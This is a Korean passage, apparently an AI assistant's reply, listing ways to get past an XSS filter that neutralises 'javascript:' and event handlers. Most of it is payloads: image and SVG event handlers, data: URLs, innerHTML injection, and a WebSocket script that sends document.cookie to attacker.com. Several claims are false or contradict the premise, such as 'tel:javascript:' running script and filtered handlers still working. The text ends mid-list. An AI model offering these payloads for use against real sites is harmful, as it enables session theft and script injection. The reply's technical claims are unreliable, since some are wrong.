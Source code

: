 알겠습니다! \*\*`javascript:`\*\*와 **이벤트 핸들러**가 \*\*`void`\*\*로 자동 변환되고 필터링되는 상황에서 **추가적으로 취약한 공격 구문**을 진단하려면, **자바스크립트**를 직접 실행할 수 있는 다른 우회 방법을 찾아야 합니다. 이미 **`javascript:`** 프로토콜이 차단된 상태라면, 공격자는 **HTML 요소**, **이벤트 핸들러**, 또는 **웹 기술**을 우회할 수 있는 방법을 찾아야 합니다.

여기서는 **필터링 우회**와 **스크립트 실행**을 방지하기 위해 활용할 수 있는 **대체 공격 기법들**을 다루겠습니다.

### 1. **DOM 요소에 대한 공격 (이미지, SVG, IFRAME 등)**

브라우저에서 \*\*`javascript:`\*\*를 필터링하는 경우에도, **HTML 요소**에 내장된 **이벤트 핸들러**나 **태그 속성**을 통해 **자바스크립트 실행**을 유도할 수 있습니다.

#### 예시 공격 코드:

* **`<img>` 태그의 `onerror` 이벤트 활용**: 이미지를 불러오지 못할 경우 **`onerror`** 이벤트를 통해 자바스크립트를 실행할 수 있습니다.

```html
<img src="invalid-image" onerror="alert('XSS - img onerror')">
```

* **`<svg>` 태그 활용**: **SVG** 내에서도 \*\*`onload`\*\*나 **`onerror`** 등의 이벤트를 사용해 XSS를 유발할 수 있습니다.

```html
<svg onload="alert('XSS - SVG')">
    <rect width="100" height="100" style="fill:blue"/>
</svg>
```

* **`<iframe>` 태그 활용**: \*\*`iframe`\*\*을 사용하여 **스크립트 실행**을 유도할 수 있습니다.

```html
<iframe src="javascript:alert('XSS - iframe')"></iframe>
```

### 2. **`data:` URL을 통한 공격**

브라우저가 **자바스크립트**를 처리하지 않도록 필터링하는 상황에서도, **`data:`** URL을 이용해 **이미지**나 **스크립트**를 **inline으로 삽입**할 수 있습니다.

#### 예시 공격 코드:

* **`data:` URL을 통해 악성 스크립트 삽입**:

```html
<img src="data:image/svg+xml,<svg onload=alert('XSS')></svg>">
```

이 코드에서는 **`data:`** URL을 사용하여 **SVG 이미지** 내에서 **`onload`** 이벤트를 트리거하여 자바스크립트가 실행됩니다.

### 3. **특수 프로토콜 사용**

**`javascript:`** 외에도, 다른 프로토콜을 활용한 **우회**가 가능합니다. 예를 들어, **`tel:`**, **`file:`**, \*\*`data:`\*\*와 같은 **다른 프로토콜**을 사용하여 **자바스크립트**를 실행하거나 **악성 행위**를 유도할 수 있습니다.

#### 예시 공격 코드:

* **`tel:` 프로토콜을 통한 XSS 우회**:

  * 일부 브라우저에서는 **`tel:`** 프로토콜을 사용할 수 있습니다. 이를 통해 **자바스크립트 코드**가 실행되도록 할 수 있습니다.

  ```html
  <a href="tel:javascript:alert('XSS')">Click me</a>
  ```

* **`data:` 프로토콜을 통한 스크립트 실행**:

  * **`data:`** 프로토콜을 사용하여 \*\*`alert()`\*\*이나 **스크립트**를 실행할 수 있습니다.

  ```html
  <a href="data:text/html,<script>alert('XSS')</script>">Click me</a>
  ```

### 4. **폼 필드를 통한 악성 스크립트 삽입**

**폼 필드**나 **입력 필드**에 악성 코드를 삽입하는 방법도 있습니다. 사용자가 입력한 값이 **DOM**에 삽입되면 **XSS** 공격이 발생할 수 있습니다.

#### 예시 공격 코드:

* **`<form>` 입력 필드 활용**:

  * 사용자가 입력한 값에 **악성 스크립트**를 삽입하고, 서버에서 이를 **DOM에 반영**할 때 **XSS**를 유발할 수 있습니다.

  ```html
  <form action="search">
      <input type="text" name="q" value="<script>alert('XSS')</script>">
      <button type="submit">Search</button>
  </form>
  ```

### 5. **DOM 삽입 공격 (innerHTML, eval 등)**

`innerHTML`이나 \*\*`eval`\*\*과 같은 JavaScript 메서드를 사용할 때, 악성 코드가 **DOM에 삽입**될 수 있습니다. 이러한 방법은 **자바스크립트 코드**를 실행시키는 방식으로 **XSS**를 유발할 수 있습니다.

#### 예시 공격 코드:

* **`innerHTML`을 통한 DOM 조작**:

  * 악성 스크립트를 \*\*`innerHTML`\*\*을 통해 **DOM에 삽입**할 수 있습니다.

  ```html
  <div id="target"></div>
  <script>
      document.getElementById('target').innerHTML = '<img src="invalid" onerror="alert(\'XSS\')">';
  </script>
  ```

### 6. **DOM 이벤트 우회 (예: `onclick` 등)**

**`javascript:`** 구문이 필터링되어도 \*\*`onclick`\*\*과 같은 **이벤트 핸들러**를 사용하여 자바스크립트를 실행할 수 있습니다. 특히 **`<a>`**, **`<button>`** 등의 **HTML 요소**에 **이벤트 핸들러**를 추가하여 스크립트를 실행할 수 있습니다.

#### 예시 공격 코드:

* **`onclick` 이벤트 핸들러 사용**:

  * **`<a>`** 태그나 **`<button>`** 등에 **`onclick`** 이벤트를 삽입하여 스크립트를 실행할 수 있습니다.

  ```html
  <a onclick="alert('XSS')">Click me</a>
  ```

  * **`<button>` 사용**:

  ```html
  <button onclick="alert('XSS')">Click me</button>
  ```

### 7. **WebSocket을 이용한 정보 유출**

WebSocket을 활용하여 **클라이언트-서버** 간의 실시간 통신을 **악용**할 수 있습니다. WebSocket은 **XSS 우회** 기법으로 사용할 수 있습니다.

#### 예시 공격 코드:

* **WebSocket을 통한 정보 유출**:

  * 악성 코드를 삽입하여 **WebSocket**을 통해 **민감한 정보**를 외부 서버로 유출할 수 있습니다.

  ```html
  <script>
      var ws = new WebSocket('ws://attacker.com/socket');
      ws.onopen = function() { ws.send(document.cookie); };
  </script>
  ```

---

### 결론

**`javascript:`** 프로토콜이 \*\*`void(0)`\*\*로 변환되고 필터링된 상황에서도 여전히 **XSS**와 같은 공격을 우회할 수 있는 방법은 많습니다. 다음과 같은 방법들이 **취약점을 찾을 수 있는 지점**입니다:

* **HTML 태그 이벤트 핸들러** (예: `onerror`, `onload` 등)
* **`data:` URL**을 사용하여 **악성 스크립트** 실행
* **특수 프로토콜** (예: `tel:`, `data:` 등)을 이용한 우회
* **폼 필드**나 **`innerHTML`** 등을 이용한 **DOM 삽입 공격**
* \*\*WebSocket
